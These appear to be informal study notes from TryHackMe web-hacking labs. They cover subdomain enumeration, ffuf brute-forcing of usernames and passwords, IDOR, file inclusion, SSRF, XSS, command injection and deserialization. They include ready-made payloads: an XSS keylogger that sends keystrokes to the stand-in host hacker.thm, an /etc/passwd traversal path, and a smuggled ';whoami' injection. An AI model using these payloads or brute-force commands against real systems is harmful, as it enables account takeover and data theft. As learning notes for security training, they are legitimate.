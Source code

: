 # finding subdomains and pages
created for domain
discover subdomains registerd with https://crt.sh and https://ui.ctsearch.entrust.com/ui/ctsearchui
site:www.tryhackme.com  site:*.tryhackme.com can be used to find subdomains
dnsrecon try from list of common subdomains for example api part of website
Sublist3r uses above method and common sites to find subdomains ./sublist3r.py -d acmeitsupport.thm

Virtual hosts
find non public subdomains use ffuf for example hidden admin page ffuf -u https://codingo.io/FUZZ -w ./wordlist.txt replace "FUZZ" with whats in wordlist

# Authentication Bypass
get website url and respone when username already exists
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists" 
when usernames thats registred is found try fuff with password

ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200

# autchenticate Bypass
cookies is encoded or hashed that can be decoded if you know the format


# idor
http://online-service.thm/profile?user_id=1000
when you change for example id 
if its encoded with base64 or other you can guees the format and encod new online. worth to post to crackstation
if you cant detect id. Creat new account and swap encoded if you see others content found idor

# File inclusion
lfi rfi directory traversal
unsantized user input 
bad input handlig and something like this is possible http://webapp.thm/get.php?file=../../../../etc/passwd
rfi
when allow_url_fopen is on with include()
enter url to force download from remote sderver http://webapp.thm/get.php?file=www.hackerserver.com
# ssrf
bypass input validation to give commands directly to locked api
common places to look
> when full url is used in adress bar or in code
> form value thats an url
> partial url thats connected to api
trial and error to find api and check its endpoints

# xss
get code to inject on others frontend javascript
kan keylog and send session with <script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
> reflected xss
when user supplied javascript can be run example if url paramn is shown 1:1 in browser can change url param to <script src="url.js"></script>
> Stored XSS
How to test for Stored XSS:
stuff stored in comments and discriptons
You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to;
client sided validated input creates xss for example send code in form age field
> dom based xss
resarch more  https://www.w3.org/TR/REC-DOM-Level-1/introduction.html
https://owasp.org/www-community/attacks/DOM_Based_XSS
> blind xss
same as stored-xss but to unverifanble places like admin portals or support tickets. https://xsshunter.com/features is tool for it
# Command injection
when app pass data and make system calls with userinput as param.
to check if it works with ping and sleep or curl. or whoami if the application show responses
curl http://vulnerable.app/process.php%3Fsearch%3DThe%20Beatles%3B%20whoam

# insecure Deserilz
Packing up or seralize/parsing data between frontend and backend
example is look att cookie and change usertype to admin

https://owasp.org/www-community/attacks/